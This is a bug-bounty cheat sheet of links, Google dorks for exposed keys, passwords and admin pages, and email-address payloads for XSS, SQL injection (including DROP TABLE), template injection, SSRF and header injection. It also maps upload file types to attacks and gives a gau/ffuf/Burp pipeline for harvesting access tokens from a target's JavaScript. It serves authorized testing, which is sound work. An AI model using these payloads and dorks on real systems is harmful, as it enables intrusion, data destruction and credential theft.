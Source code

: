 ## Bunch of web related stuff to read 

https://pentester.land/

---

## Web ui to test your code 

 jsfiddle.net 

---


## Don't find what you need ? List of writeups, search with keywords.

https://pentester.land/list-of-bug-bounty-writeups.html?fbclid=IwAR1_Q5WRS8Q0mmF4fpxMXLeWmboBxicAAdyqscrnGB1Uxiznu-FjS1xJZSs

---

## Drupal 

Find hidden pages : fuzz /node/$ where $ is a number.

---

## Payload needed ? Here are lists

- SecLists
- Payloadallthethings
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

---

## Need info on how to hunt something ?

https://github.com/KathanP19/HowToHunt
https://www.infosecmatter.com/bug-bounty-tips-1/

---



## Some google dorks

```
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
site:target.com inurl:admin | administrator | adm | login | l0gin | wp-login
intitle:"login" "admin" site:target.com
inurl:admin site:target.com
site:target.com ext:txt | ext:doc | ext:docx | ext:odt | ext:pdf | ext:rtf | ext:sxw | ext:psw | ext:ppt | ext:pptx | ext:pps | ext:csv | ext:mdb
intitle:"index of /" Parent Directory site:target.com
intitle:"index of /admin" site:target.com
intitle:"index of /password" site:target.com
intitle:"index of /mail" site:target.com
intitle:"index of /" (passwd | password.txt) site:target.com
intitle:"index of /" .htaccess site:target.com
inurl:passwd filetype:txt site:target.com
inurl:admin filetype:db site:target.com
filetype:log site:target.com
link:target.com -site:target.com
```


---

## Email address payload 

By @securinti (compiled by @intigriti)
Source: link

The following payloads are all valid e-mail addresses that we can use for pentesting of not only web based e-mail systems.

XSS (Cross-Site Scripting):

```
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

Template injection:
```
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```

SQL injection:
```
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

SSRF (Server-Side Request Forgery):
```
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

Parameter pollution:
```
victim&email=attacker@example.com
```

(Email) header injection:
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

---

## Top 10 file upload scenario

ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXE

---

## Find access tokens with ffuf and gau
By @Haoneses

- Gather all links of your target:
`cat hosts | sed 's/https\?:\/\///' | gau > urls.txt`

- Filter out javascript urls:
`cat urls.txt | grep -P "\w+\.js(\?|$)" | sort -u > jsurls.txt`

- Use ffuf to get only valid links and send them right into Burp:
`ffuf -mc 200 w jsurls.txt:HFUZZ -u HFUZZ -replay-proxy http://127.0.0.1:8080`

- Use Scan Check Builder Burp extension, add passive profile to extract “accessToken” or “access_token”.

- In Burp run passive scan on those javascript links.

- Extract found tokens and validate them before reporting.

- Use KeyHacks to identify particular API keys, how can they be used and how to check if they are valid.

- Make sure to also try to extract other file types such as .php, .json etc. (Step 2).


## Find out what websites are built with
By @akita_zen


- This one can help identify what technology a particular website (or a list of websites) was built with.

`cat urls-alive.txt | parallel -j 50 "echo {}; python3 main.py analyze --url {}"`

git clone https://github.com/vincd/wappylyzer.git

---

## NTLM authentication with BurpSuite

1. proxy / options / uncheck "Set Connection Close"
2. User Options / platform authentication / add NTLM

NTLM authenticates the TCP connection, which is not kept alive when using a proxy. This trick solve the issue.





